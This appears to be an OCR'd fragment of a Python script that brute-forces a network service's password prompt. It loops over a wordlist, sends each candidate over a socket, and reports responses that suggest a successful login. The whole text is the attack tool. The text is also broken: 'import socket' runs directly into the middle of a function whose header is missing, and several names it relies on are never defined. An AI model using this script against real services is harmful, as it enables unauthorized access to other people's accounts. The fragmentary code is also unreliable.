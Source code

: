 ```import socket
            prompt = s.recv(RECV_BUFFER).decode(errors="ignore").strip()
            if "Password:" not in prompt:
                return prompt, "Unexpected prompt"
            # Send password
            s.sendall(f"{password}\n".encode())
            # Receive response
            response = s.recv(RECV_BUFFER).decode(errors="ignore").strip()
            return prompt, response
        except socket.timeout:
            return "", "Timeout"
        except ConnectionResetError:
            return "", "Connection reset"
        except Exception as e:
            return "", f"Error: {e}"

def main():
    print(f"[*] Starting password fuzzing against {HOST}:{PORT}")
    print(f"[*] Using wordlist: {WORDLIST}")
    passwords = load_wordlist()
    print(f"[*] Loaded {len(passwords)} passwords (including extra password)")

    for password in passwords:
        prompt, response = try_password(password)
        print(f"Password: {password}")
        print(f"  Prompt: {prompt or 'None'}")
        print(f"  Response: {response}")
        # Success if response is not 'Password:' or an error
        if response and response != "Password:" and "Timeout" not in response and "Error" not in response and "Connection reset" not in response:
            print(f"[+] Potential success with password: {password}")
            print(f"[+] Response: {response}")
            input("[*] Press Enter to continue...")
        time.sleep(DELAY)

if __name__ == "__main__":
    main()
```
